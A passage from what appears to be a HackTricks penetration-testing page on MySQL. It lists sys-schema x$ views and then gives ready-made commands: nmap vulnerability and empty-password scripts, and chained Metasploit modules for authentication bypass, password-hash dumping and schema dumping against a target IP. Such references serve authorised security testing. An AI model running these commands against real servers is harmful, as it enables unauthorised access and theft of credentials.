 x$schema\_flattened\_keys\
x$schema\_index\_statistics\
x$schema\_table\_lock\_waits\
x$schema\_table\_statistics\
x$schema\_table\_statistics\_with\_buffer\
x$schema\_tables\_with\_full\_table\_scans\
x$session\
x$statement\_analysis\
x$statements\_with\_errors\_or\_warnings\
x$statements\_with\_full\_table\_scans\
x$statements\_with\_runtimes\_in\_95th\_percentile\
x$statements\_with\_sorting\
x$statements\_with\_temp\_tables\
x$user\_summary\
x$user\_summary\_by\_file\_io\
x$user\_summary\_by\_file\_io\_type\
x$user\_summary\_by\_stages\
x$user\_summary\_by\_statement\_latency\
x$user\_summary\_by\_statement\_type\
x$wait\_classes\_global\_by\_avg\_latency\
x$wait\_classes\_global\_by\_latency\
x$waits\_by\_host\_by\_latency\
x$waits\_by\_user\_by\_latency\
x$waits\_global\_by\_latency
{% endtab %}
{% endtabs %}

## HackTricks Automatic Commands

```
Protocol_Name: MySql    #Protocol Abbreviation if there is one.
Port_Number:  3306     #Comma separated if there is more than one.
Protocol_Description: MySql     #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for MySql
  Note: |
    MySQL is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL).

    https://book.hacktricks.xyz/pentesting/pentesting-mysql

Entry_2:
  Name: Nmap
  Description: Nmap with MySql Scripts
  Command: nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse {IP} -p 3306

Entry_3:
  Name: MySql
  Description: Attempt to connect to mysql server
  Command: mysql -h {IP} -u {Username}@localhost
  
Entry_4:
  Name: MySql consolesless mfs enumeration
  Description: MySql enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_version; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_authbypass_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/admin/mysql/mysql_enum; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_schemadump; set RHOSTS {IP}; set RPORT 3306; run; exit' 
```